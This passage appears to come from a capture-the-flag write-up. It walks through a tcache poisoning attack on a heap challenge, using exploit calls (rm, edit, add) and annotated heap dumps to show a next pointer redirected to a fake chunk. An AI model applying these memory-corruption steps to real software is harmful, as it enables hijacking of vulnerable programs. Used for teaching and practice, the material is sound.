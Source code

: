 I’ll free A and then free but hold onto B by editing it to 0. Then on adding another 0x40 bin, I’ll have both files pointing to the same spot. From there, removing the first B will leave me where I want to be to attack:

```

rm('A')                                         # A in 0x50 tcache, f1 empty
edit('B', 0)                                    # B -> A in 0x50 tcache, f2 still B
add('B2', 0x40)                                 # A in 0x50 tcache, f1 & f2 -> B
rm('B')                                         # B -> A in 0x50 tcache, f1 -> B

```

The heap loops like:

```

0x55555555c250: 0x0000000000000000      0x0000000000000051  <-- A meta
0x55555555c260: 0x0000000000000000      0x000055555555c010  <-- A pointer to next (null) and key
0x55555555c270: 0x0000000000000000      0x0000000000000000
0x55555555c280: 0x0000000000000000      0x0000000000000061  <-- fake chunk
0x55555555c290: 0x0000000000000000      0x000000000000000a
0x55555555c2a0: 0x0000000000000000      0x0000000000000051  <-- B meta
0x55555555c2b0: 0x000055555555c260      0x000055555555c010  <-- pointer to A and key
0x55555555c2c0: 0x0000000000000000      0x0000000000000000
0x55555555c2d0: 0x0000000000000000      0x0000000000000000
0x55555555c2e0: 0x0000000000000000      0x0000000000000000
0x55555555c2f0: 0x0000000000000000      0x0000000000020d11

```

When I now edit B2 with just one character, 0x90, it will overwrite that tcache pointer:

```

edit('B2', 0x40, '\x90')                        # B -> fake1 in 0x50 tcache, f1 -> B

```

Heap:

```

0x55555555c250: 0x0000000000000000      0x0000000000000051
0x55555555c260: 0x0000000000000000      0x000055555555c010
0x55555555c270: 0x0000000000000000      0x0000000000000000
0x55555555c280: 0x0000000000000000      0x0000000000000061
0x55555555c290: 0x0000000000000000      0x000000000000000a
0x55555555c2a0: 0x0000000000000000      0x0000000000000051
0x55555555c2b0: 0x000055555555c290      0x000055555555c010  <-- now points to fake chunk
0x55555555c2c0: 0x0000000000000000      0x0000000000000000
0x55555555c2d0: 0x0000000000000000      0x0000000000000000
0x55555555c2e0: 0x0000000000000000      0x0000000000000000
0x55555555c2f0: 0x0000000000000000      0x0000000000020d11

```

